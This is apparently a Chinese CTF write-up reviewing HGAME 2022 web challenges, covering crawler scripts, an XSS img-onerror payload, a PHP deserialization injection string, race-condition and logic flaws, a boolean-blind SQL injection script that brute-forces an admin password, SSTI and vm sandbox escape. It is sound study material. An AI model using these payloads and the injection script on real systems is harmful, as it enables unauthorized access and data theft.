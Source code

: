 ```yaml
---
title: HGAME 2022 复盘 writeup
date: 2022-02-19 23:1:00
tags: ctf
top_img: https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/logo_2022.png
cover: https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/logo_2022.png
---
```

# HGAME 2022 复盘 writeup by ek1ng


## 序

四周的HGAME结束后又回去看了看没做出的一些题和官方WP还有一些师傅们的wp，发现有些题解法很多，并且有些题虽然我打出了flag但是其实不是特别了解漏洞，也是再复盘一下这些题

## WEB

### 蛛蛛...嘿嘿♥我的蛛蛛（爬虫）

这是一个爬虫题目，题目中的蛛蛛是提示爬虫，这点是当初没发现的，当初是写了这样一个脚本，但是事实上关卡数是未知的，这种自动点击的方式，点到多少还是要看运气，虽然也可以print一下，不过总之不是个很好的方法，然后也是写个爬虫再做一遍

##### 自动化点击脚本

```python
from time import sleep
from selenium import webdriver

# 打开浏览器
wd = webdriver.Chrome(r'chromedriver.exe')
wd.get('https://hgame-spider.vidar.club/915929bc23')
# 让程序停1s保证打开页面后再自动点击
sleep(1)

# 自动点击
for i in range(100):
    # 点击href值不为空的按钮
    for link in wd.find_elements_by_xpath("//*[@href]"):
        try:
            if link.get_attribute('href') != '':
                wd.get(link.get_attribute('href'))
        except:
            pass

```

##### 爬虫

```python
import requests

s = 'https://hgame-spider.vidar.club/915929bc23'


def find(x):
    res = requests.get(s + x)
    print(res.headers)
    print(s + x)
    print(res.text)
    xt = [x for x in res.text.split("\"") if 'key' in x]
    for i in xt:
        find(i)
    if "hgame" in res.text:
        print(res.text)
        return


find("")

```

### At0m的留言板（XSS）

XSS漏洞的利用点在img上，代码没有对img做过滤。

先利用img标签的onerror属性，在content中输出窗体对象的所有属性

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
Object.keys(window)">
```

![image-20220219154358680](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154358680.png)

然后发现flag的名称是F149_is_Here，在content中输出窗体对象的子属性F149_is_Here的值，拿到flag

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
F149_is_Here">
```

![image-20220219154406494](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154406494.png)

### 一本单词书（反序列化）

在如何触发反序列化这一点其实当初做题没有特别清楚，因为hint中给出了一个例题，然后依葫芦画瓢得打出了flag，后面也是忙着做后面得题就没机会思考一下，现在回过头再看一下如何通过输入特定数据触发反序列化

先来看看我当初参照hint给出例题的payload

```
{"aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa":"aaaa"}
```

encode 函数将键值型数据编码为 键|serialize(值) 的形式，如 {"a": "1","b": "s"} 编码为 a|s:1:"1";b|s:1:"s" 。

decode 函数会调用 unserialize 函数将编码后的数据恢复，具体来说就是 | 后面到下一个键名之间的内容 换被传递给 unserialize 函数。 

当键中包含 | 符号时，就可以注入任意的反序列化后的数据。

这里我们的键是`aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa`值是`aaaa`，然后encode是给值序列化，并且用|隔开，decode是把|后面的反序列化回去，然后我们传入的键是做了手脚的，后面跟了|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa，在decode反序列化的过程中，会把|后面的都反序列化，那这样的话，Evil类就被反序列化了，然后为什么还要跟个aa，是因为他是键值对嘛，那我们这里后端decode的时候会以为是aaa为键，|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象为值，然后反序列化后Evil对象触发__wakeup这个魔法方法，把flag带出来，然后为什么后面要跟个aa，不跟aa也是可以打出flag，然后跟个aa应该是和后面值aaaa配对，然后|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象和/flag的值会覆盖掉这组键值对，然后所以这个aa和aaaa是看不到的。

然后来看看出题人给的payload

```
{"a|O:4:\"Evil\":2:{s:4:\"file\";s:5:\"/flag\";s:4:\"flag\";N;};b":2}

```

也是一样的道理

### Vidar shop demo（条件竞争）

我当初做题的方法和预期解不太一样，然后也是在校外群看到很多师傅都有各种解法，于是也一一尝试一下看看

第一种解法是官网WP中给出的，连续发送对不同订单的支付请求，只扣一次余额，因为后端的逻辑是查询出用户余额，然后创建订单，最后更新用户余额，后面那个订单只要赶在余额更新前查询余额，那么就会只扣一次钱了

第二种解法是取消未支付订单，这周做法就是后端逻辑问题了，并不是条件竞争，退款未支付商品也是可以成功的

第三种解法校外群内有师傅说可以修改未支付订单号，但是余额的扣除好像是按照商品判断的，你修改成多少钱的商品就是扣多少余额，我按照他的解法是无法复现的，不知道是什么原因。。。。

第四种是爆破账号密码，唔在登录上确实有些问题，一开始出题人还没删测试账号，我直接登进去了，后来问了问后就说这种解法不太行，痛失1血（，后面题目改成了账号密码至少10位，爆破就稍微会难一些，但是还是可行的一种方法，不过爆破账号的前提也是别人打出一个余额超过10000的账号hhh，讲道理也是不太对的方法

### LoginMe （sql布尔盲注）

参考了其他选手的python脚本，我当初是用的sqlmap出的，因为没加什么过滤好像，sqlmap可以直接出，看了看其他人的wp很多也是sqlmap的，然后但是我按照别人的wp的脚本好像无法复现，不知道为啥，反正布尔盲注确实不太懂，针对这个知识学了一下

````python
```
import json
import requests
host = '2aaa006c94.login.summ3r.top:60067'
md5 = ''
data = {"username": "test') and substr(password,1,1)='a' --+", "password": "test"}
for i in range(1,33):
    for j in "0123456789abcdefABCDEF":
        data["username"] = "admin') and substr(password,{},1)='{}' --+".format(i,j)
        r = requests.post('http://' + host + '/login', json=data).text
        info = json.loads(r)['msg']
        print(info)
        if info == 'success!':
            md5 += j
        print(md5)
        break
````



首先是什么是布尔盲注，就是通过构造逻辑判断来得到信息，因为解码只返回true or false，没有直接回显信息，没办法直接union注入爆库名表名字段名这样。

这里就是知道账号是admin，所以就是爆密码，然后一位一位去跑，把这个密码爆出了，大概是这样的流程，然后如果说页面不反回true or false的题型就是需要时间盲注了，需要让逻辑表达式正确时延时返回，这样就可以做到true or false的判断

### SecurityCenter（SSTI）

这个题是我按照预期解做出的，然后看到别人的wp中有人是弹shell然后连接服务器读取的文件，也尝试一下看看

好吧环境好像关了，那只能看看wp学习一下了

主要就是没过滤eval，所以可以想办法弹shell

### Markdown Online（vm沙箱逃逸）

被绕登录的trick卡住了，真是眩晕

传入数组对象，16个元素的数组或者json再套一层，让.length判断正确但是touppercase报错就可以绕过登录

后面就是markdown中没有对html标签过滤，所以说可以传script标签，然后找vm沙箱逃逸的payload，绕过waf过滤就可以get flag了，vm沙箱逃逸主要是因为vm并不是完全安全的，用户输入直接传入就会造成沙箱逃逸，然后实现RCE，可以cat /flag



